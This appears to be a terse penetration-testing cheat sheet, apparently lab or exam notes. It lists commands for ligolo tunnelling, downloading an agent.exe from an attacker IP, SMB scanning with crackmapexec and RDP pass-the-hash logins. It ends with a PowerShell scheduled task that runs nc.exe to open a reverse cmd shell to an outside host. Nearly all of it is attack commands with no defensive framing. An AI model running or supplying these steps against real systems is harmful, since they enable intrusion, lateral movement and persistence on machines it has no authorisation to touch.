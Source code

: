 start ligolo
```
./proxy -selfcert
```

on target
download
```
iwr -uri http://192.168.45.171:8000/agent.exe -Outfile agent.exe
```
start ligolo
```
.\agent.exe -connect 192.168.45.171:11601 -ignore-cert
```

listeners:

```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:80
```

testing: 
```
crackmapexec smb 10.10.164.0/24 
```

##### chisel


### RDP

```
xfreerdp /v:<ip> /u:<user> /d:. /pth:<hash>

xfreerdp /v:<ip> /u:<user>
```

### search file

powershell
```
Get-ChildItem -Path C:\ -File -Recurse -ErrorAction SilentlyContinue -Filter "local.txt"
```

cmd
```
dir C:\local.txt /s
```

### schedule task

```
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.118.23 4444 -e cmd.exe`""

Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"

Start-ScheduledTask -TaskName "GrantPerm"
```
